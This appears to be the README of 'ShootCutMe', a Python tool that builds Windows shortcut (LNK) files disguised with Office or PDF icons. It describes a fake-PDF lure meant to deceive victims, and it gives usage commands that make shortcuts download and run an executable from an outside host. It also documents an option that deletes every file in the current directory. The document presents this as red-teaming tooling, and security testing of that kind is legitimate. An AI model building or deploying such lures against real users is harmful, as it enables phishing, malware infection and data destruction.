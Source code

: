 # ShootCutMe:

LNK files are used on the most modern and advanced APT attacks.

LNK files are windows shortcut files. Using a shortcut file you can launch your own commands.

I am happy to introduce ShootCutMe a script to create LNK files.

Options Available For Version 0.1:

- Fake pdf (Will open a fake Google doc on the browser in kiosk mode to lure the victim and remove suspicions)

- You can choose between different icons (word, Adobe, Excel, PowerPoint, Edge...)

- You can choose what you want to accomplish with the LNK file: download an executable, download and load an executable, execute an executable)
  Using the LNK file you can drop your first-stage malware and complete your red teaming engagement successfully.

## Demo:
<a href="https://www.instagram.com/reel/ClUDIlLofFa/?utm_source=ig_web_copy_link" target="_blank">Demo Video</a>
## Install:

```cmd
python -m venv lnkenv
lnkenv\Scripts\activate.bat
python -m pip install -r requirements.txt
```

## Examples:

### Download File:

```cmd
python shootcutme.py --icon excel --name test1 -d http://10.0.3.90:8081/file.txt fileNameAfterDownload.txt D:\LNKtest
```

### Launch Executable:

```cmd
python shootcutme.py --icon word --name test2 -ex exeToLaunch.exe
```

### Fake PDF

```cmd
python shootcutme.py --icon edge --name <shotcutFileName> -fp <googleDocUrl> <executableToLaunch>
```

### Download And Execute:

```cmd
python shootcutme.py --icon pdf --name <shortCutFileName> -dl http://10.0.3.90:8081/example.exe exampleTest.exe D:\LNKtest
```

### Delete all files on the current directory:

```cmd
python shootCutMe.py -n test1.pdf --icon pdf --delete
```
